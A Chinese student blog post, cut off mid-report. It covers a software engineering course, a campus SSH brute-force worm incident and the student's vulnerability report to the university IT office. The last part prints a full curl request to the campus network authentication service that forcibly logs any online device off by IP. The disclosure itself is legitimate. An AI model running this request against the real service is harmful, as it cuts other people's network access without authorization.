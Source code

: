 于是这节课就成了 __"讲的是工程, 写的是软件"__, 大作业的工程性没有得到体现, 大家写大作业的重点都是 "如何拿到分", 而完全没有注意作业作为一个软件工程应有的规划和各种工程上的问题. (还是太卷导致的, 大家并不想投入太多时间到这门课的作业中来)

然后这门课还有考试, 感觉又凉了 (笑)

然后说说 Secoder, 这玩意简单地说就是年久失修, 能用就行. 作为之前的软工项目, 软工评测平台 Secoder 完美诠释了什么叫 "软件不是资产而是债务". 咱还没有看过 ta 的源码, 不过可以预知这玩意的代码质量一定是很差的. ayf 学长评价软工的代码为 "重建成本小于维护成本". 加上 Secoder 的维护这今年毕业了, 这下烂完喽~

课程组邀请咱去当平台助教, 当然前提是咱看得懂且有时间. 不过咱觉得咱两者都做不到 (x

---

沉重的部分结束啦 (大雾), 后面就是这学期桶的篓子喽

## [`Harry's NUC Got Hacked`](https://harrychen.xyz/2024/01/30/my-nuc-got-hacked/) - 处理寒假的网络入侵事件及其后续

寒假的时候科协的账号被 its 制裁了 (Agggaaaain), 同期学长的机器 SSH 登不上去, 被 SSH 爆破耗尽了资源, 导致了 SSHDoS. 经过了一段时间的尝试, 他登进去了并改了 SSH 端口号, 进去发现有超过 1GB 的 auth.log. 当时我们发现攻击的 IP 都是校内的, 说明当时病毒的横向移动已经取得了相当好的成果, 其中大量的流量来自 Harry 的网关 - 于是就有了小标题那篇文章 (笑).

由于攻击的机器很多并不属于我们, 我们向 its 发紧急邮件要求封禁部分 IP.

> 经过计算机系科协初步排查, 为 166.111.\*\*\*.\*\*\* 遭到攻击, 攻击者在获取到权限后通过 ssh 爆破的方式进行了横向渗透, 目前已经影响了部分 166.111.0.0/16 网段的设备, 且攻击仍在发生.
>
> 攻击的特征是攻击者通过多线程爆破 ssh 登录用户名和密码在主机间渗透, 如果成功获取权限, 则在靶机中下载攻击脚本, 继续横向渗透. 攻击的目的尚不明确, 且多线程 ssh 爆破导致我们的部分服务器无法正常登录. 我们提取了受攻击但未被攻破的服务器的 ssh 登录记录, 发现部分攻陷并正在发动攻击的 IP 并非我们所有, 故我们请求 its 紧急暂时封禁这些 IP, 以防横向渗透持续发生.
>
> 我们初步确定第一个被攻破的机器是位于 166.111.\*\*\*.\*\*\*/26 网段的 166.111.\*\*\*.\*\*\*, 这不受我们的管辖.
>
> 攻击脚本的来源 91.92.250.\*\*\* 为芬兰 IP, 疑似为攻击者肉鸡, 与科协没有关系.
>
> 我们正在处理受影响的机器, 已经更改了被封禁账号的密码, 以后会加强防御, 尽量避免类似情况发生.

然后 its 找我们要了 auth.log, 把里面出现的所有 IP 关联的账号全封了. 学长当时临时拿咱的账号准入下在 auth.log, 登录的时候输错了一次密码, 于是咱的账号也被封了 (笑). 申请误封解封的时候 its 还嘴硬, 说 "接到用户投诉". 也不看看是谁投诉的然后发现封了投诉人的号 (乐).

当时咱就在想, _大家对 its 封号普遍不重视, 马马虎虎糊弄过去得了, 到时候肯定出事_.

果不其然, 咱在科服, 这学期中后期有一位同学说他的服务器 "没法更新 `openssh-server`", 说 `/etc/ssh/sshd_config` 拒绝访问. 我们 Check 了一下之后觉得这个服务器被打穿了装了 Rootkit. 一问有没有什么预兆, 他说之前被封过号. 一问 IP, 在封号名单里面榜上有名 (乐). 这下毕设不干净了 (笑). 当时建议是重装系统, 硬盘抹 0, 不要抱有侥幸. 这就是不重视 its 安全提示的回旋镖 (笑).

---

## 下线漏洞 - 如何玩坏 Secoder

过年的时候咱发现校园网准入认证服务可以下线任何人的设备, 只要在线. 当时给 its 提交了漏洞报告:

> ```bash
> curl 'https://usereg.tsinghua.edu.cn/import_online_user.php' \
> -H 'Accept: */*' \
> -H 'Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,en-GB;q=0.6,zh-TW;q=0.5' \
> -H 'Content-Type: application/x-www-form-urlencoded' \
> -H 'Cookie: PHPSESSID={SESSION ID}' \
> -H 'Origin: https://usereg.tsinghua.edu.cn' \
> -H 'Referer: https://usereg.tsinghua.edu.cn/import_online_user.php' \
> -H 'Sec-Fetch-Dest: empty' \
> -H 'Sec-Fetch-Mode: cors' \
> -H 'Sec-Fetch-Site: same-origin' \
> -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0' \
> -H 'sec-ch-ua: "Not A(Brand";v="99", "Microsoft Edge";v="121", "Chromium";v="121"' \
> -H 'sec-ch-ua-mobile: ?0' \
> -H 'sec-ch-ua-platform: "Linux"' \
> --data-raw 'action=drop&user_ip={IP here}' \
> --compressed